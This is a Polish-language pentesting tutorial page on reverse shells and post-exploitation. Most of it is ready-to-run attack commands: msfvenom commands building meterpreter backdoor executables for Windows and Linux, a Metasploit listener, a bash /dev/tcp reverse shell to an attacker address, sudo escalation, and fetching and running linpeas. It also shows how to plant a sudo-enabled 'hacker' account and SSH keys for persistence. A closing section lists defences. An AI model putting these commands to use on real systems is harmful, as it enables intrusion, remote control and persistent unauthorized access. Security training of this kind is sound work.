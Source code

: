 ```yaml
---
id: "reverse-shell-post-exploitation"
title: "🎭 Reverse Shell i Post-Exploitation"
sidebar_position: 14
---
```


# 🎭 Reverse Shell i Post-Exploitation

Po udanym przejęciu systemu atakujący może chcieć utrzymać dostęp, przechwycić dane, wykonać dalsze eskalacje uprawnień lub zainstalować backdoora. W tej sekcji omówimy, jak tworzyć **reverse shell**, przejmować sesje oraz utrwalać dostęp do systemu.

---

## 🛠️ Tworzenie backdoora
Backdoor to ukryte wejście do systemu, które pozwala atakującemu na ponowne zalogowanie się bez wiedzy administratora.

### **1️⃣ Tworzenie backdoora w Metasploit**
Metasploit umożliwia generowanie złośliwych plików wykonywalnych:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > backdoor.exe
```
Jeśli atakowany system to Linux:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > backdoor.elf
```

#### **Uruchomienie backdoora**
Na maszynie atakującego uruchamiamy listener w Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```
Po otwarciu pliku `backdoor.exe` przez ofiarę, uzyskujemy zdalny dostęp do systemu.

---

## 🔄 Przechwytywanie sesji
Reverse Shell pozwala na pełną interakcję z systemem ofiary.

### **2️⃣ Uzyskanie Reverse Shell przez Netcat**
Atakujący otwiera listener:
```bash
nc -lvnp 4444
```
Ofiara uruchamia payload:
```bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```
Po uruchomieniu polecenia, atakujący uzyskuje interaktywną powłokę.

### **3️⃣ Eskalacja uprawnień**
Po uzyskaniu dostępu do systemu można spróbować podnieść uprawnienia:
```bash
sudo -l
```
Jeśli istnieje dostęp do `sudo` bez hasła, można wykonać:
```bash
sudo /bin/bash
```
W przypadku Linuksa można użyć narzędzia `linpeas` do wykrycia potencjalnych wektorów eskalacji:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### **4️⃣ Utrwalanie dostępu**
Po uzyskaniu dostępu atakujący może dodać konto użytkownika:
```bash
sudo useradd -m -s /bin/bash hacker
sudo passwd hacker
sudo usermod -aG sudo hacker
```
Lub dodać klucz SSH do `~/.ssh/authorized_keys`, aby uzyskać trwały dostęp.

---

## 🔐 Jak zabezpieczyć system przed backdoorami i reverse shell?
✅ **Monitorowanie aktywności sieciowej i nietypowego ruchu na nietypowych portach**
✅ **Blokowanie Netcata i innych narzędzi używanych w atakach**
✅ **Używanie EDR (Endpoint Detection & Response) do wykrywania podejrzanych działań**
✅ **Regularne skanowanie systemów pod kątem nowych użytkowników i kluczy SSH**
✅ **Ograniczenie uprawnień i segmentacja sieci**

---

Reverse Shell i Post-Exploitation to kluczowe elementy zaawansowanego pentestingu. Kolejnym krokiem będzie **Ataki na uwierzytelnianie wieloskładnikowe (2FA Bypass)**! 🚀
